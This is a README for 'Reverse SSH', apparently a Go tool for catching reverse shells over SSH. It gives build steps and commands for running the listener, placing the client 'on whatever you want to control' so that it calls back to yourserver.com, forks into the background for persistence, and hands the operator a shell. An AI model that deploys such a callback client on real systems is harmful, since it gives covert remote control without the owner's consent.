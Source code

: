 # Reverse SSH
By far one of the stupidest things I've been thinking of for a while. Have an ssh client connect to a server, and then provide the server the ability to control the client


Essentially works like any reverse shell muliplexer thing. Only fun thing here is that everything uses SSH.   

You, the human client connect to the reverse shell catcher with ssh, and then select which remote host you want to connect to. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```
## How to use

Depending on the platform, you're building the server and client for. You may need to change the GOOS and GOARCH enviroment variables. E.g building for linux:
```
GOOS=linux GOARCH=amd64 make
```

The server will automatically generate a private key on first use. Or you can specify one with `--key`. And you will need to create an `authorized_keys` file, containing *Your* public key. 
This will allow the server to authenticate you, to allow you to control whatever reverse shell connections it catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

This will cause the client to fork into the background. If you want to montior the output for debugging purposes specify `--foreground`.  
The client will attempt to detect shells such as bash, ash, sh and execute one of those if possible. If it cant find one. Then you will be asked to enter in a path.

Then connect to your server:

```
ssh yourserver.com:3232
```

You will be presented by a list of controllable clients, e.g:
```
Connected controllable clients:                                                                                            e43bdff83d71a8a70e2c89fc27334e18722acaa1b600feb01c836351967bc258@127.0.0.1:55526, client version: SSH-2.0-Go
>
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect 4<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 


## Todo

- ~~Make the selection UI a bit better~~
- ~~Handle IO errors better in all parties~~
- ~~Remove remote connection host from list when a disconnection is registered~~
- ~~Make the client cleanly fork itself from whatever parent it started from, giving it persistence (might be hard in go)~~
- ~~direct-tcp port forwarding to select hosts~~
- ~~Client reconnect on loss of connection~~
- ~~Add authentication bits and bobs~~
- Ensure threadsafety of key structures
- Fix the passing of enviroment variables such as TERM
